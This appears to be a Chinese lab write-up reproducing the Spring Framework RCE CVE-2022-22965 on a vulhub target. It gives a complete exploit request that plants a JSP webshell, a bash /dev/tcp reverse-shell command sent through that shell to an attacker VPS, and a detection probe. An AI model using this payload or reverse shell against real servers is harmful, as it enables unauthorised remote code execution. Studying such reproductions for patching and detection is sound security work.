




# 漏洞复现-CVE-2022-22965-Spring Framework RCE - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/16329332.html`](https://www.cnblogs.com/cute-puli/p/16329332.html)

# 0x00 实验环境

攻击机：Ubuntu

靶场：vulhub 搭建的靶场环境

# 0x01 影响版本

*   Spring Framework < 5.3.18
*   Spring Framework < 5.2.20
*   JDK 版本：**JDK>=9**
*   部署方式：war 包部署在**TOMCAT**中（不是全新的新洞，而是**CVE-2010-1622**的一种绕过情况）

# 0x02 漏洞复现

（1）查看页面信息如下：


 （2）修改其他路径会出现报错，会报出中间件版本号：**8.5.77**，这样比较好判断是否是使用的**tomcat 部署**，也方便验证是否存在该漏洞：


 （3）使用如下 payload：

GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22**pwd**%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22**cmd**%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=**tomcatwar**&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host:x.x.x.x
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1



（4）发包完成后，响应**200**，就试试访问一下是否写入 shell 成功：

```
http://x.x.x.x:8080/tomcatwar.jsp?pwd=j&cmd=id

```


 （5）执行成功，那怎么反弹 shell 呢？首先，输入你的反弹 shell 的命令：

```
bash -i >& /dev/tcp/vps 的 ip/7777 0>&1
```

（6）然后在以下网址进行编码：

```
https://ir0ny.top/pentest/reverse-encoder-shell.html

```



（7）编码之后，再进行一次**url 编码**：



 （8）然后你的 vps 进行监听，再在 burp 进行发包操作：



这样 shell 就回来了。


*可以再思考一下写内存马的方式？？？*（后续了解了会更新）

# 0x03 快速检测

发送：

```
GET /?class.module.classLoader.defaultAssertionStatus=123 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

响应：

```
HTTP/1.1 400 
Content-Type: text/html;charset=UTF-8
Content-Language: zh-CN
Content-Length: 277
Date: Fri, 08 Apr 2022 03:49:42 GMT
Connection: close

<html><body><h1>Whitelabel Error Page</h1><p>This application has no explicit mapping for

```

# 0x04 漏洞原理

**https://blog.csdn.net/god_zzZ/article/details/124029497**

**https://xie.infoq.cn/article/9afb22abd15642d3107aa8dcd**

# 0x05 参考文献

**https://blog.csdn.net/laobanjiull/article/details/124054250**

# 0x06 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！